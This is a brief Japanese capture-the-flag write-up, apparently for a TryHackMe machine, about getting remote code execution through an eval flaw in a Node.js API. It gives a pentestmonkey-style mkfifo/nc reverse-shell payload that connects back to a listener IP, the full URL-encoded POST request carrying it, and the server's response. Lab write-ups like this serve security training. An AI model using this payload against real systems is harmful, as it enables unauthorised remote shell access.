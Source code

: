 
# APIの脆弱性を利用し、RCEを実行
- eval rceで検索すると下記サイトがマッチ
    - https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
- そのままだと動かなかったのでpentestmonkeyのリバースシェルも流用
    - require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.82 1234 >/tmp/f')

```
POST /api/items?cmd=require(%22child_process%22).exec('rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%7cnc%2010.9.1.82%201234%20%3e%2ftmp%2ff') HTTP/1.1

Host: thm_target

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://thm_target/

Connection: close

Cookie: phpbb3_6fb71_u=1; phpbb3_6fb71_k=; phpbb3_6fb71_sid=2e20759bd0b2789bdb8e7916a4530872; token=this_is_not_real

If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"

Cache-Control: max-age=0
```

```
HTTP/1.1 200 OK

Server: nginx/1.14.0 (Ubuntu)

Date: Fri, 20 Aug 2021 02:10:19 GMT

Content-Type: text/html; charset=utf-8

Connection: close

X-Powered-By: Express

ETag: W/"27-hyVNLWK8VBc+cTKoitWKEav28lY"

Content-Length: 39



vulnerability_exploited [object Object]
```
